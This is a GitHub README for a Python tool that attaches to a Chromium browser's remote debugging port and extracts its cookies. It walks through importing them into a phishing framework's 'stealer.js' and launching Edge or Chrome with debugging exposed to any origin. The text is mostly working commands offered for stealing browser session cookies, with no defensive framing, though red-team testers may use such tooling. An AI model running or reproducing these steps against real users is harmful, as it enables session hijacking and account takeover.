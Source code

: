 # cookie-remote-debugger
python script for connecting to chromium remote debugging port and grabbing cookies

```
python3 grab-cookies.py -h
usage: grab-cookies.py [-h] -p PORT

Grab cookies from a remote debugger

options:
  -h, --help            show this help message and exit
  -p PORT, --port PORT  The Port of the remote debugger
```

Example
```
# Grab cookies
python3 grab-cookies.py -p 9222 

# Clone Project
cd 
git clone https://github.com/fkasler/cuddlephish
cd cuddlephish

# Install Dependencies Example on Debian 
curl -fsSL https://deb.nodesource.com/setup_23.x -o nodesource_setup.sh
sudo -E bash nodesource_setup.sh
sudo apt-get install nodejs
npm install

# Import Cookies
cp ~/cookie-remote-debugger/cuddlephish_YYYY-MM-DD_HH-MM-SS.json .
node stealer.js cuddlephish_YYYY-MM-DD_HH-MM-SS.json
```

Note: 
Edge does not require an alternate data directory, but Chrome does
```
start-process msedge.exe -ArgumentList '--remote-debugging-port=9222 --remote-allow-origins=* https://google.com'
start-process chrome.exe -ArgumentList '--remote-debugging-port=9222 --remote-allow-origins=* --user-data-dir=C:\Users\Public\Documents'
```
